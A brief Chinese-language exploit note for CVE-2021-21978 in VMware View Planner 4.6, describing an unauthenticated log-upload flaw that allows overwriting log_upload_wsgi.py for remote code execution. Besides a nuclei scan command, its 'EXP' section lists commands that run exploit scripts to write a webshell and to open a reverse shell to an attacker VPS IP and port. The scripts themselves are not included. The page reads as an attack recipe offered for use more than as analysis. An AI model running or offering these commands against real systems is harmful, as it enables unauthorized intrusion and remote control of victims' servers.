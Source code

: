 ## 漏洞概述

VMware View Planner Web管理界面存在一个上传日志功能文件的入口，没有进行认证且写入的日志文件路径用户可控，通过覆盖上传日志功能文件`log_upload_wsgi.py`，即可实现RCE

## 影响范围

```http
VMware View Planner 4.6
```

## POC

```bash
nuclei -tags vmware -t cves/ -l urls.txt

Goby
```

## EXP

1、写webshell 

```bash
python CVE-2021-21978.py https://192.168.80.3
```

2、反弹shell

```bash
python re-shell.py -u 目标IP -v VPS-IP -p 1234
```

